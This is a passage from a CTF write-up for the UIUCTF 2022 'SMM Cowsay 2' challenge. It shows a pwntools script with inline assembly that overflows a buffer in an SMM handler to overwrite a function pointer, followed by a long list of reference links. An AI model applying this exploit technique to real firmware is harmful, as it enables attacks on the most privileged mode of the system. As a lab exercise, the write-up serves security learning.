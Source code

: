 The first part of the exploit is the same as for SMM Cowsay 1: get ahold of
`BootServices->AllocatePool` and `->LocateProtocol`, find the `SmmCommunication`
protocol, allocate some memory to write our message, and send it to `SmmCowsay`
through its SMI handler. The only thing that changes is *what we are sending*:
this time the `->Data` field of the `EFI_SMM_COMMUNICATE_HEADER` will be filled
with a string of 400 bytes of garbage plus 8 more to overwrite the function
pointer.

We will fill all unused general purpose register with easily identifiable values
so that we can see what is spilled on the stack:

```python
# ... same code as for SMM Cowsay 1 up to the allocation of `buffer`

input('Attach GDB now and press [ENTER] to continue...')

payload = 'A'.encode('utf-16-le') * 200 + p64(0x4141414141414141)

code = asm(f'''
    /* Copy data into allocated buffer */
    lea rsi, qword ptr [rip + data]
    mov rdi, {buffer}
    mov rcx, {0x18 + len(payload)}
    cld
    rep movsb

    /* Communicate(mSmmCommunication, buffer, NULL) */
    mov rcx, {mSmmCommunication}
    mov rdx, {buffer}
    xor r8, r8
    mov rax, {Communicate}

    mov ebx, 0x0b0b0b0b
    mov esi, 0x01010101
    mov edi, 0x02020202
    mov ebp, 0x03030303
    mov r9 , 0x09090909
    mov r10, 0x10101010
    mov r11, 0x11111111
    mov r12, 0x12121212
    mov r13, 0x13131313
    mov r14, 0x14141414
    mov r15, 0x15151515
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

data:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad {len(payload)}                   /* Buffer->MessageLength */
    /* payload will be appended here to serve as Buffer->Data */
''')

conn.sendline(code.hex().encode() + payload.hex().encode() + b'\ndone')
conn.interactive() # Let's see what happens
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31